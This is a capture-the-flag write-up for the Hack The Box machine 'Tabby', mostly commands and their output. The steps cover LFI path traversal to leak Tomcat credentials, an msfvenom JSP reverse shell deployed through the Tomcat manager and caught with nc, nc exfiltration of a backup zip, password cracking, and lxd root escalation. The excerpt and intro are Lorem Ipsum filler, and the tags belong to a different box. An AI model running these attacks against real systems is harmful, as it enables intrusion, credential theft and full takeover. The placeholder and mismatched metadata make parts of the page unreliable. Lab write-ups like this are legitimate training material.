 ```yaml
---
layout: single
title: Tabby - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-07-06
classes: wide
header:
  teaser: /assets/images/htb-writeup-tabby/tabby_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-tabby/tabby_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@nidus:/git/htb# nmap -Pn -sC -sV -n 10.10.10.194
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-06 00:47 CEST
    Nmap scan report for 10.10.10.194
    Host is up (0.038s latency).
    Not shown: 997 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Mega Hosting
    8080/tcp open  http    Apache Tomcat
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-title: Apache Tomcat
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


    DIRB:
    + http://10.10.10.194:8080/docs (CODE:302|SIZE:0)
    + http://10.10.10.194:8080/examples (CODE:302|SIZE:0)
    + http://10.10.10.194:8080/host-manager (CODE:302|SIZE:0)
    + http://10.10.10.194:8080/index.html (CODE:200|SIZE:1895)
    + http://10.10.10.194:8080/manager (CODE:302|SIZE:0)

    NIKTO:
    -


2. Visiting the webpage on port 80 we directly find;
    - Hostname megahosting.htb
    - The site is also made with Bootstrap Themes from 2016
    - Information about a breach linking to http://megahosting.htb/news.php?file=statement


3. Adding megahosting.htb to /etc/hosts we are able to read their statement. Looking at the URI it looks vulnerable to LFI, testing
   this proves that that's the case - instead of reading the file 'statement' we can read '../../../../../etc/passwd'.

   Reading the passwd-file we find the user Ash;
    ash:x:1000:1000:clive:/home/ash:/bin/bash

   On the port 8080 webserver we find a Tomcat9 server with a admin login prompt. Using the found LFI we can enumerate the tomcat
   server and look for credentials. To find the file structure I installed tomcat9 locally and enumerated the directories locally;

   root@nidus:/usr/share/tomcat9# tree
    .
    ..
    ├── etc
    │   ├── server.xml
    │   ├── tomcat-users.xml
    │   └── web.xml

    We find the user configuration file under /usr/share/tomcat9/etc/tomcat-users.xml. Curling this through our LFI gives us;

    root@nidus:/git/htb/tabby# curl http://megahosting.htb/news.php?file=../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml
      ..
         <role rolename="admin-gui"/>
         <role rolename="manager-script"/>
         <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
      </tomcat-users>

    CREDENTIALS - tomcat:$3cureP4s5w0rd123!


4. Reading through the Tomcat documentation tells us that if we have access to the host-manager, we are able to add, remove and
   manage Virtual Hosts through curl.

   We create a malicious payload:
   root@nidus:/git/htb/tabby# msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.44 lport=4488 -f war > rev-shell.war
    Payload size: 1086 bytes
    Final size of war file: 1086 bytes

   Upload the shell:
   root@nidus:/git/htb/tabby# curl -u 'tomcat':'$3cureP4s5w0rd123!' -T rev.war 'http://10.10.10.194:8080/manager/text/deploy?path=/rev-shell'
    OK - Deployed application at context path [/rev-shell]

   List Deployed Shell:
   root@nidus:/git/htb/tabby# curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
    OK - Listed applications for virtual host [localhost]
    /:running:0:ROOT
    /examples:running:0:/usr/share/tomcat9-examples/examples
    /host-manager:running:0:/usr/share/tomcat9-admin/host-manager
    /rev-shell:running:0:rev-shell
    /manager:running:0:/usr/share/tomcat9-admin/manager
    /docs:running:0:/usr/share/tomcat9-docs/docs

   Execute Deployed Shell:
   root@nidus:/git/htb/tabby# curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/rev-shell/

   root@nidus:/usr/share/tomcat9# nc -lvnp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.44] from (UNKNOWN) [10.10.10.194] 45912
    whoami
    tomcat


5. Enumerating using linpeas we find a suspicious zip-file that is password protected. We are unable to open it using the found
   password, so instead I think we might be able to brute force it. Transfer the file over to your local computer using nc.

   tomcat@tabby:/dev/shm$ ./linpeas.sh
     ..
     [+] Backup files?
     -rw-r--r-- 1 ash ash 8716 Jun 16 13:42 /var/www/html/files/16162020_backup.zip

   Start listener locally:
    root@nidus:/git/htb/tabby# nc -lp 4433 > 16162020_backup.zip

   Transfer the file from Victim Host:
    tomcat@tabby:/var/www/html/files$ nc -w3 10.10.14.44 4433 < 16162020_backup.zip

   Crack the file using fcrackzip:
    root@nidus:/git/htb/tabby# fcrackzip -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip
      possible pw found: admin@it ()


6. We are now able to change to user ash:admin@it and grab user.txt

    tomcat@tabby:/var/www/html/files$ su ash
      Password: admin@it
    ash@tabby:/var/www/html/files$ cd /home/ash/
    ash@tabby:~$ cat user.txt
      3f11605318e3590cea5082935ac8d9cb


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Running Linpeas as Ash we see a, for me, unknown group - lxd. Googling for lxd privesc I find a short article explaining that
   that this is possible with a few short steps.

    ====================================( Basic information )=====================================
    ..
    User & Groups: uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)


2. Download lxd alpine builder and build it LOCALLY before pushing it over to the vicitm.

    root@nidus:/git/htb/tabby# git clone https://github.com/saghul/lxd-alpine-builder.git
    root@nidus:/git/htb/tabby# cd lxd-alpine-builder/
    root@nidus:/git/htb/tabby/lxd-alpine-builder# ./build-alpine

   A tar.gz-file is created that we can push/pull to the victim.
   root@nidus:/git/htb/tabby/lxd-alpine-builder# ls -al
    -rw-r--r-- 1 root root 3195037 Jul  6 16:56 alpine-v3.12-x86_64-20200706_1656.tar.gz


3. Pull the tar.gz-file and import it as an image. Mount to a container and profit, root taken.

    ash@tabby:~$ wget http://10.10.14.44:8181/alpine-v3.12-x86_64-20200706_1656.tar.gz
    ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20200706_1656.tar.gz --alias p3-image
      If this is your first time running LXD on this machine, you should also run: lxd init
      To start your first instance, try: lxc launch ubuntu:18.04

  If you started the box yourself, or no one has run lxd yet - write 'lxd init' and just press enter to access all default values.

    ash@tabby:~$ lxc image list
      +----------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
      |  ALIAS   | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE         |
      +----------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
      | p3-image | a17d99462fda | no     | alpine v3.12 (20200706_16:56) | x86_64       | CONTAINER | 3.05MB | Jul 6, 2020 at 1:18pm (UTC) |
      +----------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+

   Continue to add a device and select the folder(s) you'd like to mount. In our case we mount the entire box (/) to /mnt/root.

    ash@tabby:~$ lxc init p3-image ignite -c security.privileged=true
      Creating ignite
    ash@tabby:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
      Device mydevice added to ignite
    ash@tabby:~$ lxc start ignite
    ash@tabby:~$ lxc exec ignite /bin/sh
    ~ # id
      uid=0(root) gid=0(root)
    ~ # cd /mnt/root/root/
    /mnt/root/root # cat root.txt
      67667b1756a9729b7fadc7f7315019b9



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

TomCat; Add, Remove, Manage:
  https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_a_Directory_or_WAR_by_URL

lxd PrivEsc:
  https://www.hackingarticles.in/lxd-privilege-escalation/
